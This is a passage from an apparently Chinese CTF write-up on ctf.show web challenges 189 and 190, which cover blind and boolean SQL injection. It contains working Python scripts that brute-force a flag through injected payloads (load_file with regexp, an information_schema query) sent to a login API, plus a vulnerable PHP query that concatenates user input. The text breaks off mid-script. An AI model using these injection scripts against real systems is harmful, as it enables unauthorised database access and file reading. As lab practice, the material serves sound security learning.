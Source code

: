 ```python
LastEditTime: 2021-12-09 18:59:34
Description:  盲注189
'''

import requests
import string

url = 'http://f99c9132-a52b-4b1d-97bf-60a325a5e311.challenge.ctf.show/api/index.php'

flag = 'ctfshow'

payload = "if(load_file('/var/www/html/api/index.php')regexp('{}'),1,0)"

string = string.digits + string.ascii_lowercase + '{-}'

for i in range(8, 46):
    for j in string:
        data = {
            'username':payload.format(flag + j),
            'password':1
        }
        r = requests.post(url=url, data=data)
        if r'\u67e5\u8be2\u5931\u8d25' in r.text: #返回'查询失败'证明匹配成功
            flag += j
            print('[*] {}'.format(flag))
            break

```
## web190（布尔注入）
```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
```
还是盲注，不过这次数据库表名都变了，都需要爆一下，具体解释看代码
poc：
```python
'''
Author: KonDream
Date: 2021-12-09 19:28:19
LastEditors:  KonDream
LastEditTime: 2021-12-09 20:25:18
Description:  布尔注入
'''
import requests

url = 'http://ba2f3143-2d16-4b16-a501-7909aa4ece97.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_fl0g,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
```